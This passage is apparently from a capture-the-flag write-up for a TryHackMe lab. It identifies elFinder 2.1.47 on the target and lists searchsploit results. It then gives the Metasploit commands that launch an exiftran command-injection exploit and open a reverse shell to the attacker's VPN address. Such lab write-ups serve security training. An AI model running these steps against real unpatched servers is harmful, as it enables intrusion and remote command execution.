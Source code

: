 Clicking on the help button we can see that the application is using ```elFinder```, a Web File manager, and the version in use is ```2.1.47```

![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/elFinder-Lookup.png?raw=true)

Using searchsploit, we get a few results, one of them being a metasploit module.
```bash
searchsploit elFinder 2.1.47
--------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                     |  Path
--------------------------------------------------------------------------------------------------- ---------------------------------
elFinder 2.1.47 - 'PHP connector' Command Injection                                                | php/webapps/46481.py
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)                        | php/remote/46539.rb
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)                        | php/remote/46539.rb
--------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
# Foothold
We launch ```metasploit```, look for the module found with ```searchsploit```, set the ```options``` for the module, and execute the attack.
```bash
msfconsole # launch metasploit
search elfinder exiftran # search the exploit we found with searchsploit

Matching Modules
================

   #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                               ---------------  ----       -----  -----------
   0  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection

use 0 # as this is the number associated with the result from the search
options # to see what parameters need set to launch the exploit
set rhost files.lookup.thm # set rhost as it is a required option
set lhost tun0 # set the lhost to tun0, this will set the local host IP to one we are using currintly with THM's VPN.
# LPORT is optional as it is already set to 4444, can be changed if 4444 is already in use
run # run or exploit command will launch the attack
```
